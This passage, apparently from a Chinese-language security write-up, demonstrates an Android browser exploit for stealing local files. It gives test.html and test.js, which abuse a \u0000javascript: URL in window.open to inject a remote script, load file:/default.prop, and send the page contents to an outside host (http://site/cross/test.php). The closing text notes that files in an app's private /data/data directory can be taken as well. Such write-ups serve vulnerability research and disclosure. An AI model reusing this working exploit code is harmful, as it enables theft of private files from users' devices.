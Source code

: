 ```
    try{

    send();

    alert("done");

    }

    catch(e){alert("error");}

}

main();

```

![](http://drops.javaweb.org/uploads/images/cb8ebacae692d62ad9a9bbd73e4b159122e9bcc1.jpg)

![](http://drops.javaweb.org/uploads/images/93f4791c5f951868bbac6d6f3f2e668945d83dad.jpg)

2、窃取本地文件

test.html

```
<button onclick="iframe.src='http://notfound/'">x</button><br>
<button onclick="exploit1()">Get local file!</button><br>
<script>
function exploit1() {
    window.open('\u0000javascript:document.body.innerHTML="<script/src=http://site/test.js></scr"+"ipt><iframe src=file:/default.prop onload=exploit2()  style=width:100%;height:1000px; name=test2></iframe>";','test');
}
</script>
<iframe src="http://m.baidu.com/" id="iframe" style="width:100%;height:1000px;" name="test"></iframe>

```

test.js

```
var flag = 0;
function exploit2(){
  if(flag) {return}
 window.open('\u0000javascript:location.replace("http://site/cross/test.php?test="+escape(document.body.innerHTML))','test2');
  flag = 1;
}

```

服务端接收到android的default.prop文件内容。也可以窃取相应app私有目录/data/data/packagename/下文件
